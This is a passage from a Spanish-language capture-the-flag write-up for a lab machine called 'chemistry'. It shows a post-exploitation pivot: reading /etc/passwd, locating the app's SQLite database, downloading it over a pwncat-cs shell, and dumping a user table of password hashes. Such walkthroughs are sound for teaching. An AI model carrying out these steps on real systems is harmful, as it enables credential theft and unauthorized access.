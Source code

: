 # User Pivoting
## Leaking Database user hashes
Vemos que existe otro usuario llamado `rosa`
```console
(remote) app@chemistry:/home/app$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

Analizando el archivo `app.py` vemos que se está utilizando SQLite y que el archivo se llama `database.db`
![Write-up Image](images/Screenshot_12.png)

Podemos hacer una simple búsqueda con `find` para encontrar el archivo, y vemos la ruta.

```console
(remote) app@chemistry:/home/app/$ find / -type f -name database.db 2>/dev/null
/home/app/instance/database.db
```

Haciendo uso de la función interna `download` de `pwncat-cs` vamos a descargarnos el archivo para indagar en nuestra máquina de atacante mas tranquilamente.

```console
(local) pwncat$ download /home/app/instance/database.db
/home/app/instance/database.db ━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 20.5/20.5 kB • ? • 0:00:00
[16:10:07] downloaded 20.48KiB in 0.61 seconds    
```

Vemos dos tablas, la que mas me llama la atención es la de usuarios.
```console
sqlite> .tables
structure  user
```

```sql
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
```